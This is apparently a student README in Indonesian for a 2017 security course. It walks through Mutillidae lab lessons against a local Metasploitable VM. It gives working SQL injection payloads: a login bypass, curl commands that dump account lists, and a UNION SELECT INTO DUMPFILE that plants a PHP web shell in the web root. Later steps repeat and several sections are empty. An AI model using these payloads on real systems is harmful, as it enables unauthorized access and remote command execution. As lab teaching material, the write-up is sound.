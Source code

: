 # Tugas-Final-PKSJ
Tugas final PKSJ 2017
 OLEH 
- 5114100092    KHARISMA MONIKA
- 5114100131    Michael Dave
- 5114100081    M. Luqmanul Hakim

## Multidiae
### Lesson 5
  1. Membuka halaman mutillidae dengan memasukan URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/home.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

2. Pilih halaman login dengan menekan tulisan login di sebelah kiri atas dari halaman mutillidae
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/login.png "Mutillidae Login page")

3. Isikan (') / petik satu / single_quote pada kolom name seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test.png "Mutillidae single quote test")
Lalu tekan enter

4. Dapat dilihat dibagian atas muncul error log yang memberikan indikasi mengenai format dari dari perintah SQL untuk login
yaitu SELECT * FROM accounts WHERE username=''' AND password=''
dimana (') menyebabkan error pada eksekusi command sql.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test_report.png "Mutillidae single quote test report")

5. Dengan demikian maka dapat dilakukan login dengan mem-bypass password menggunakan sql injection dengan mengetikan perintah
sebagai berikut "'or 1=1-- " (petik 2 tidak perlu diketik juga)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Mutillidae bypass login")
Perhatikan untuk memberikan spasi di akhir dari tanda (-- ).
Lalu tekan enter.

6. Hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test_report.png "Mutillidae login as admin")
Perhatikan frasa logged in as Admin:admin

### Lesson 6

### Lesson 7
Note : harus mengganti settingan database pada metasploit, database name diubah menjadi owsp10

 1. Buka Mutillidae pada Browser dengan IP/mutillidae
 2. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/section%208%20user%20info.PNG "Tampilan USer Info")
 3. Settig proxy firefox dengan alamat 127.0.0.1:8080
 4. Setting Burpsuite, dengan menonaktifkan intercept
 5. Di page user info masukkan username:
  ' 1=1-- 
  Lihat URL yang dihasilkan. Url yang dihasilkan seperti berikut : 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Tampilan User Page Info")
  http://192.168.149.101/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details
      Terlihat +or+1%3D1-- 
        Keterangan :
        + : space
        %3D : =
   ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/SQL%20Injection%20Obtain%20Userlist.PNG "LIST Username")
  6. Lihat di history http di burpsuite. History burpsuite menunjukkan encoded sql injection. Untuk proses selanjutnya menggunakan curl.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/history%20burpsuite.PNG "History burpsuite")
  7. SQL injection dengan curl. dengan perintah " curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}' "
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20curl.PNG "HASIL CURL")
  
  8. Membuat output file dengan memasukkan hasil curl pada lesson7.txt dengan perintah "  curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep "Username=" > lesson7.txt  " 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20cat%20lesson7.PNG "HASIL CAT CURL")
  
  9. Selanjutnya adalah SQL injection dengan Perl. Download Script Output parser, dengan perintah wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
  10. Rename menjadi extensi perl, dengan perintah mv lesson7.pl.TXT lesson7.pl
  11. ubah permission agar dapat membaca dengan perintah chmod 700 lesson7.pl
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/download%20output%20parser.PNG "HASIL DOWNLOAD PERL")
  
  12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
   
### Lesson 8
### Lesson 9
### Lesson 10
  1. Melihat database pada mutillidae. 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20database%20dan%20use%20owasp10.PNG "DATABASES PADA MUTILLIDAE")
  
   2. Melihat tabel database owasp10
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20tables%20owasp10.PNG "TABEL PADA OWASP10")
  
   3. Melihat field pada tabel account
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/desc%20accounts.PNG "FIELD TABEL ACCOUNT")
  
   4. Buka mutillidae pada browser
   5. Menuju menu user info. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
   6. Inspect elemen pada textbox name, lalu ubah size.
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/inspect%20elemet%20100.PNG "INSPECT ELEMEN dan UBAH SIZE")
  
   7. Melakukan Backdoor Union SQL Union Injection. Dengan perintah " ' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' --  "
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
  
   12. Jalankan script perl dengan perintah ./lesson7.pl
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
  
   12. Jalankan script perl dengan perintah ./lesson7.pl
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
  
### Lesson 11

## Cuckoo
### Instalasi
### Konfigurasi
### Testing

## Snort
### Instalasi
### Konfigurasi
### Testing
